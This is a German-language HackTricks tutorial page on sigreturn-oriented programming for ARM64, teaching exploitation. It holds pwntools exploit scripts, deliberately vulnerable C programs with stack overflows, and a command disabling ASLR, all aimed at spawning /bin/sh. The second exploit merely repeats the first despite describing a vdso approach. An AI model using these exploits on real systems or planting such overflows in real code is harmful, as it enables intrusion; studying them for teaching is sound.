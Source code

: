 # SROP - ARM64

<details>

<summary><strong>Lernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositorys einreichen.

</details>

## Pwntools Beispiel

Dieses Beispiel erstellt die verwundbare Binärdatei und nutzt sie aus. Die Binärdatei **liest in den Stack ein** und ruft dann **`sigreturn`** auf:
```python
from pwn import *

binsh = "/bin/sh"
context.clear()
context.arch = "arm64"

asm = ''
asm += 'sub sp, sp, 0x1000\n'
asm += shellcraft.read(constants.STDIN_FILENO, 'sp', 1024) #Read into the stack
asm += shellcraft.sigreturn() # Call sigreturn
asm += 'syscall: \n' #Easy symbol to use in the exploit
asm += shellcraft.syscall()
asm += 'binsh: .asciz "%s"' % binsh #To have the "/bin/sh" string in memory
binary = ELF.from_assembly(asm)

frame = SigreturnFrame()
frame.x8 = constants.SYS_execve
frame.x0 = binary.symbols['binsh']
frame.x1 = 0x00
frame.x2 = 0x00
frame.pc = binary.symbols['syscall']

p = process(binary.path)
p.send(bytes(frame))
p.interactive()
```
## bof Beispiel

### Code
```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void do_stuff(int do_arg){
if (do_arg == 1)
__asm__("mov x8, 0x8b; svc 0;");
return;
}


char* vulnerable_function() {
char buffer[64];
read(STDIN_FILENO, buffer, 0x1000); // <-- bof vulnerability

return buffer;
}

char* gen_stack() {
char use_stack[0x2000];
strcpy(use_stack, "Hello, world!");
char* b = vulnerable_function();
return use_stack;
}

int main(int argc, char **argv) {
char* b = gen_stack();
do_stuff(2);
return 0;
}
```
Kompilieren Sie es mit:
```bash
clang -o srop srop.c -fno-stack-protector
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space  # Disable ASLR
```
## Exploit

Der Exploit nutzt den Pufferüberlauf aus, um zum Aufruf von **`sigreturn`** zurückzukehren und den Stack vorzubereiten, um **`execve`** mit einem Zeiger auf `/bin/sh` aufzurufen.
```python
from pwn import *

p = process('./srop')
elf = context.binary = ELF('./srop')
libc = ELF("/usr/lib/aarch64-linux-gnu/libc.so.6")
libc.address = 0x0000fffff7df0000 # ASLR disabled
binsh = next(libc.search(b"/bin/sh"))

stack_offset = 72

sigreturn = 0x00000000004006e0 # Call to sig
svc_call = 0x00000000004006e4  # svc	#0x0

frame = SigreturnFrame()
frame.x8 = 0xdd            # syscall number for execve
frame.x0 = binsh
frame.x1 = 0x00             # NULL
frame.x2 = 0x00             # NULL
frame.pc = svc_call

payload = b'A' * stack_offset
payload += p64(sigreturn)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```
## bof Beispiel ohne sigreturn

### Code
```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>

char* vulnerable_function() {
char buffer[64];
read(STDIN_FILENO, buffer, 0x1000); // <-- bof vulnerability

return buffer;
}

char* gen_stack() {
char use_stack[0x2000];
strcpy(use_stack, "Hello, world!");
char* b = vulnerable_function();
return use_stack;
}

int main(int argc, char **argv) {
char* b = gen_stack();
return 0;
}
```
## Exploit

In der Sektion **`vdso`** ist es möglich, einen Aufruf von **`sigreturn`** im Offset **`0x7b0`** zu finden:

<figure><img src="../../../.gitbook/assets/image.png" alt="" width="563"><figcaption></figcaption></figure>

Daher ist es möglich, diese Adresse zu verwenden, um auf einen `sigreturn` zuzugreifen, wenn das Binär nicht geladen wird:
```python
from pwn import *

p = process('./srop')
elf = context.binary = ELF('./srop')
libc = ELF("/usr/lib/aarch64-linux-gnu/libc.so.6")
libc.address = 0x0000fffff7df0000 # ASLR disabled
binsh = next(libc.search(b"/bin/sh"))

stack_offset = 72

sigreturn = 0x00000000004006e0 # Call to sig
svc_call = 0x00000000004006e4  # svc	#0x0

frame = SigreturnFrame()
frame.x8 = 0xdd            # syscall number for execve
frame.x0 = binsh
frame.x1 = 0x00             # NULL
frame.x2 = 0x00             # NULL
frame.pc = svc_call

payload = b'A' * stack_offset
payload += p64(sigreturn)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```
Für weitere Informationen über vdso überprüfen Sie:

{% content-ref url="../ret2vdso.md" %}
[ret2vdso.md](../ret2vdso.md)
{% endcontent-ref %}

Und um die Adresse von `/bin/sh` zu umgehen, könnten Sie mehrere Umgebungsvariablen erstellen, die darauf verweisen, für weitere Informationen:

{% content-ref url="../../common-binary-protections-and-bypasses/aslr/" %}
[aslr](../../common-binary-protections-and-bypasses/aslr/)
{% endcontent-ref %}

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
